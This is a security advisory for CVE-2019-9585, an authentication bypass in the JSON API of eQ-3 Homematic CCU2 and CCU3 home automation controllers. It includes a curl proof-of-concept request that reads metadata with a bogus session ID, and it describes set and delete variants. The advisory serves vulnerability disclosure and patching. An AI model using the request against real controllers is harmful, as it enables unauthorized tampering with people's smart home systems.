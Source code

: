 ```yaml
---
layout: post
title:  "CVE-2019-9585 eQ-3 Homematic CCU2 prior 2.47.10 and CCU3 prior 3.47.10 JSON API has Improper Access Control for Interface.***Metadata related operations, resulting in the ability to read, set and deletion of Metadata"
date:   2019-07-26 00:05:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-9585
- Author: psytester
- Title: eQ-3 Homematic CCU2 prior 2.47.10 and CCU3 prior 3.47.10 JSON API has Improper Access Control for Interface.***Metadata related operations, resulting in the ability to read, set and deletion of Metadata
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 9.9
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:H/A:L
- Publishing Date: 26.07.2019
- Updated: --
- Vendor: eQ-3 AG
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 12.04.2019
- Vendor confirmation: N.A.
- Vendor patch: CCU2 2.47.10 and CCU3 3.47.10
- Vendor Reference: [HMCCU-261] in changelog of CCU2 and CCU3
- Affected Firmware version of CCU2: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7 tested
- Affected Firmware version of CCU3: 3.41.11, 3.43.16, 3.45.5, 3.45.7 tested

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>


Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]

# Issue Description

While analyzing the implementation of the CCU2 and CCU3, an Improper Access Control vulnerability has been identified, which can be exploited in order to retrieve, modify or delete internal MetaData.<br>
The system provides a JSON API. While some methods require a dedicated user access level identified by provided sessionID, a number of methods can also be used with any string as sessionID.

A code review of the file ```/www/api/methods.conf``` revealed that the ```Interface.setMetadata``` / ```Interface.getMetadata``` and ```Interface.removeMetadata``` method can be used without valid authentication.<br>
They require the _session_id_ parameter, but due to ```LEVEL NONE``` the SessionID value is never checked.
```
Interface.setMetadata {
  LEVEL NONE
  SCRIPT_FILE interface/setmetadata.tcl
  INFO {Setzt ein Metadatum zu einem Object}
  ARGUMENTS {_session_id_ objectId dataId value}
}
 

Interface.getMetadata {
  LEVEL NONE
  SCRIPT_FILE interface/getmetadata.tcl
  INFO {Gibt ein Metadatum zu einem Object zurück}
  ARGUMENTS {_session_id_ objectId dataId}
}

Interface.removeMetadata {
  LEVEL NONE
  SCRIPT_FILE interface/removemetadata.tcl
  INFO {Entfernt ein Metadatum eines Objects}
  ARGUMENTS {_session_id_ objectId dataId}
}
```

Example method call without valid sessionID:
```
curl -X POST -k -i 'https://1.2.3.4/api/homematic.cgi' --data '{
  "version": "1.1",
  "method": "Interface.getMetadata",
  "params": {
    "_session_id_": "@unknownvalue@",
    "objectId": ".....",
	"dataId": "....."
  }
}'
```

If those Metadata gots corrupt by an attack, the WebUI is no longer able to show or modify the details of a device.
Settings-->Devices--> select "HM-RCV-50 BidCoS-RF" and press "Set" button might show up such error message:
```
Das Gerät mit der Seriennummer 'BidCoS-RF' vom Interface 'systemHacked' konnte nicht abgefragt werden!
```

# CVE

[CVE-2019-9585](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9585)

# CVSSv3 Base Score

CVSSv3 Base Score: 9.9

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:H/A:L

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
